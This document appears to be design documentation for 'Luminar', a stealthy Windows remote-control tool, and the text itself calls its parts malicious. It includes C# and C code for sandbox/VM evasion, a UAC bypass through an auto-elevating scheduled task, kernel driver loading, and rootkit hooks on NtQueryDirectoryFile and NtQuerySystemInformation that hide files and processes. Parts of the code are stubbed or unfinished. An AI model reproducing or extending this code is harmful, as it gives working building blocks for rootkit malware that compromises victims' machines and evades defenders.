

# Luminar - Technical Documentation

## Table of Contents

1. [Introduction](#introduction)
2. [System Architecture](#system-architecture)
3. [Deployment Mechanism](#deployment-mechanism)
4. [Environment Detection](#environment-detection)
5. [Privilege Escalation](#privilege-escalation)
6. [Kernel Driver Loading](#kernel-driver-loading)
7. [Native Function Hooking](#native-function-hooking)
8. [Persistence](#persistence)
9. [Client-Server Communication](#client-server-communication)
10. [Technical Appendices](#technical-appendices)

## Introduction

Luminar is an advanced remote monitoring and control solution designed to operate stealthily on Windows systems. This technical documentation details the internal mechanisms and techniques used to ensure its operation, stealth, and persistence.

## System Architecture

Luminar consists of several interconnected modules:

1. **Client Module**: Main executable deployed on the target system
2. **Kernel Module**: Kernel-mode driver for low-level operations
3. **Persistence Module**: Component that modifies the bootloader to ensure persistence
4. **C2 Server**: Command and control infrastructure for client management


## Deployment Mechanism

Luminar deployment follows a multi-stage process designed to maximize stealth and effectiveness:



## Environment Detection

During its initial execution, Luminar performs a series of checks to determine if it's running in a virtual environment (sandbox, virtual machine) or on a real physical system.

### VM Detection Techniques

```csharp
public static bool IsVirtualMachine()
{
    // Check hardware signatures
    if (CheckVMHardwareSignatures())
        return true;
        
    // Check for known VM artifacts
    if (CheckVMDrivers() || CheckVMServices())
        return true;
        
    
    // Timing analysis (VMs have different timing characteristics)
    if (PerformTimingAnalysis())
        return true;
        
    return false;
}
```

If a virtual machine is detected, Luminar adopts legitimate behavior to avoid detection, acting as a standard application without deploying its malicious components.

## Privilege Escalation

On a real system, Luminar proceeds to escalate privileges from standard user (USER) to administrator rights (ADMIN).

### Elevation Techniques

1. **UAC Bypass**: Circumvention of User Account Control

```csharp
private static bool BypassUAC()
{
    // Using the deferred execution technique
    string systemDir = Environment.GetFolderPath(Environment.SpecialFolder.System);
    string explorerPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Windows), "explorer.exe");
    
    // Creating a COM task with automatic elevation
    ITaskService taskService = new TaskScheduler.TaskScheduler();
    taskService.Connect();
    
    // Configuring the task with elevated privileges
    // ...
    
    return true;
}
```

2. **SOON**

## Kernel Driver Loading

Once administrator privileges are obtained, Luminar proceeds to load its kernel-mode driver.

### Driver Loading Process

```csharp
private static bool LoadKernelDriver()
{
    // Extract driver from resources
    byte[] driverData = ExtractDriverResource();
    
    // Write driver to a temporary location
    string driverPath = Path.Combine(Path.GetTempPath(), GenerateRandomName() + ".sys");
    File.WriteAllBytes(driverPath, driverData);
    
    // Load driver via Service Control Manager
    IntPtr scmHandle = OpenSCManager(null, null, SC_MANAGER_ALL_ACCESS);
    
    if (scmHandle == IntPtr.Zero)
        return false;
    
    // Create and start service for the driver
    IntPtr serviceHandle = CreateService(scmHandle, "LuminarDriver", "Luminar System Service", 
                                        SERVICE_ALL_ACCESS, SERVICE_KERNEL_DRIVER, 
                                        SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL, 
                                        driverPath, null, IntPtr.Zero, null, null, null);
    
    if (serviceHandle == IntPtr.Zero)
    {
        // If service already exists, open it
        serviceHandle = OpenService(scmHandle, "LuminarDriver", SERVICE_ALL_ACCESS);
    }
    
    // Start the service
    bool result = StartService(serviceHandle, 0, null);
    
    // Cleanup
    CloseServiceHandle(serviceHandle);
    CloseServiceHandle(scmHandle);
    
    return result;
}
```

## Native Function Hooking

Once loaded, the kernel-mode driver modifies Windows NT native functions to implement stealth capabilities.

### Hooking Technique

```c
// Kernel-mode driver code
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    // Driver initialization
    // ...
    
    // Hook NtQueryDirectoryFile function to hide files
    g_OriginalNtQueryDirectoryFile = (NtQueryDirectoryFilePtr)InterceptKernelFunction(
        L"NtQueryDirectoryFile", 
        (PVOID)HookedNtQueryDirectoryFile
    );
    
    // Hook NtQuerySystemInformation function to hide processes
    g_OriginalNtQuerySystemInformation = (NtQuerySystemInformationPtr)InterceptKernelFunction(
        L"NtQuerySystemInformation", 
        (PVOID)HookedNtQuerySystemInformation
    );
    
    // Hook other native functions
    // ...
    
    return STATUS_SUCCESS;
}

// Hooking function to hide files
NTSTATUS HookedNtQueryDirectoryFile(
    HANDLE FileHandle,
    HANDLE Event,
    PIO_APC_ROUTINE ApcRoutine,
    PVOID ApcContext,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID FileInformation,
    ULONG Length,
    FILE_INFORMATION_CLASS FileInformationClass,
    BOOLEAN ReturnSingleEntry,
    PUNICODE_STRING FileName,
    BOOLEAN RestartScan)
{
    // Call the original function
    NTSTATUS status = g_OriginalNtQueryDirectoryFile(
        FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock,
        FileInformation, Length, FileInformationClass,
        ReturnSingleEntry, FileName, RestartScan);
    
    // If the call succeeded, filter the results
    if (NT_SUCCESS(status))
    {
        // Check prefix to hide files
        if (FileInformationClass == FileDirectoryInformation ||
            FileInformationClass == FileFullDirectoryInformation ||
            FileInformationClass == FileBothDirectoryInformation ||
            FileInformationClass == FileNamesInformation)
        {
            // Traverse file entries
            PVOID currentEntry = FileInformation;
            PVOID previousEntry = NULL;
            
            while (currentEntry != NULL)
            {
                // Get filename
                PUNICODE_STRING fileName = GetFileNameFromEntry(currentEntry, FileInformationClass);
                
                // Check if filename contains hidden prefix
                if (fileName != NULL && ContainsHiddenPrefix(fileName))
                {
                    // Hide entry by modifying list pointers
                    ModifyDirectoryEntryList(FileInformation, previousEntry, currentEntry, FileInformationClass);
                }
                else
                {
                    previousEntry = currentEntry;
                }
                
                // Move to next entry
                ULONG nextEntryOffset = GetNextEntryOffset(currentEntry, FileInformationClass);
                if (nextEntryOffset == 0)
                    break;
                    
                currentEntry = (PVOID)((ULONG_PTR)currentEntry + nextEntryOffset);
            }
        }
    }
    
    return status;
}
```
